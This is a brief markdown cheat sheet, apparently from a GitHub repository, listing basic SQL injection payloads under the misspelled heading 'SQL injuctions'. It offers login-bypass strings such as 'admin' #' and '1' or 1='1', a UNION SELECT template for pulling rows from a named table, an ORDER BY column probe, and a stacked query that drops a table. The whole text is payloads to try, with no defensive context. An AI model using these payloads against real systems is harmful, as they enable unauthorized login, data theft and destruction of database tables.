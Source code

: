 # SQL injuctions
## Basic SQL injuctions syntax
``` 1' or 1='1 ```
``` 1' union select <row1>,<row2> from <tablename># ```
``` 1;drop table <tablename># ```

```` somepass' or 1=1 #     ````

# you can try with username

``` admin' # ```
``` name' order by 1#  ```
